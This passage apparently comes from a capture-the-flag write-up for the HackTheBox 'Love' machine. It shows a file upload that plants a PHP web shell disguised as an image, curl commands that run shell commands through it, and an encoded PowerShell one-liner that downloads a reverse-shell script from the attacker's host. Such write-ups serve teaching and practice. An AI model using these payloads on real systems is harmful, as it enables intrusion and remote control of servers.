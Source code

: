 ```http

leet
-----------------------------6162343632466008669555397480
Content-Disposition: form-data; name="lastname"

hax0r
-----------------------------6162343632466008669555397480
Content-Disposition: form-data; name="password"

haxhax
-----------------------------6162343632466008669555397480
Content-Disposition: form-data; name="photo"; filename="haxd.php"
Content-Type: image/png

<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>

-----------------------------6162343632466008669555397480
Content-Disposition: form-data; name="add"

-----------------------------6162343632466008669555397480--
```

With that, `curl` can be used for arbitrary shell commands:

```console
$ curl http://love.htb/images/haxd.php?cmd=whoami
love\phoebe
```

And that also works for creating a more stable [ConPtyShell](https://github.com/antonioCoco/ConPtyShell) connection:

```console
curl http://love.htb/images/haxd.php?cmd=powershell%20-e%20aQBlAHgAKABpAHcAcgAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMQA0AC8AYwBvAG4AcAB0AHkAcwBoAC0ANAA0ADMALgBwAHMAMQAgAC0AdQBzAGUAYgBhAHMAaQBjAHAAYQByAHMAaQBuAGcAKQAKAA== &
```

```powershell
listening on [any] 443 ...
                          connect to [10.10.14.14] from (UNKNOWN) [10.10.10.239] 52723
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\xampp\htdocs\omrs\images> whoami
love\phoebe
PS C:\xampp\htdocs\omrs\images> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```
